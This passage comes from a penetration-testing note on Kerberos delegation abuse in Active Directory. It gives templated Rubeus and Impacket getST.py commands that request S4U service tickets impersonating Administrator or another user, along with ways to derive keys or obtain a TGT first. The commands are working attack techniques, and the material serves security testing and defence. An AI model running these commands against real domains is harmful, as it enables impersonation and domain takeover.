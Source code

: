 Refer to the `S4U service tickets and usage` section below (common with
`resource-based constrained delegation` exploitation) for more information on
how to request and use the aforementioned tools (notably for machine takeover).

### S4U service tickets and usage

###### S4U service tickets request

`Rubeus`'s `s4u` module or `impackets`'s `getST.py` Python script can be used
to request `S4U2self` `service tickets` for the targeted service(s). Knowledge
of a secret (`NTLM` hash or `Kerberos` `AES 128 / 256 bits` keys) or a
`Kerberos` `TGT` of the principal trusted for delegation (constrained or
resource-based) is required and must first be retrieved before `S4U` requests
can be made.

If **only the password of the user is known**, the `NTLM` hash / `RC4` key or
the `AES` keys can be derived from the password. The `DSInternals` PowerShell
`ConvertTo-NTHash` and `ConvertTo-KerberosKey` cmdlets or the `Rubeus`'s `hash`
module can be used to this end. Additionally, if **only the security context of
an user has been obtained** (i.e no knowledge of any of the user's
credentials), a `TGT` for the user can be obtained using the `Rubeus`'s
`tgtdeleg` module. Refer to the `[ActiveDirectory] Kerberos tickets usage` note
(`Plaintext password to RC4 / AES keys` or `TGT Kerberos tickets requests`
sections) for more information.

The following commands can be used to requests `S4U` `service ticket(s)` for
the specified service(s) under the identity of the provided service account.

Note that the received `S4U2self` `service ticket(s)` will be automatically
injected in (and overwrite) the current logon session by `Rubeus` if the `/ptt`
option is specified.

```bash
# Example of <SPN> for Rubeus's msdsspn or getST.py: <SERVICE>/<DOMAIN_FQDN> or host/<HOSTNAME> or host/<HOSTNAME_FQDN>.

# Rubeus.exe.
# Example of <SERVICE_NAME | SERVICES_NAME> for Rubeus' altservice: host,cifs,http,wsman,rpcss.

# Request made using a known secret of the principal trusted for delegation.
Rubeus.exe s4u /domain:<DOMAIN_FQDN> /user:<CONTROLLED_SERVICE_ACCOUNT_USERNAME | CONTROLLED_MACHINE_ACCOUNT_NAME$> /rc4:<NTLM> /impersonateuser:<Administrator | USERNAME> /msdsspn:<SPN> [/altservice:<host,cifs,http,wsman,rpcss | SERVICE_NAME | SERVICES_NAME>] /ptt

# Request made using a valid TGT of the principal trusted for delegation.
Rubeus.exe s4u /domain:<DOMAIN_FQDN> /ticket:<TGT> /impersonateuser:<Administrator | USERNAME> /msdsspn:<SPN>/<DOMAIN_FQDN> [/altservice:<host,cifs,http,wsman,rpcss | SERVICE_NAME | SERVICES_NAME>] /ptt

# Impacket's getST.py.

# Request made using a known secret of the principal trusted for delegation.
getST.py -spn <SPN> -impersonate <Administrator | USERNAME> -dc-ip <DC_IP> '<DOMAIN>/<CONTROLLED_MACHINE_ACCOUNT_NAME$:<CONTROLLED_MACHINE_ACCOUNT_PASSWORD>'
```
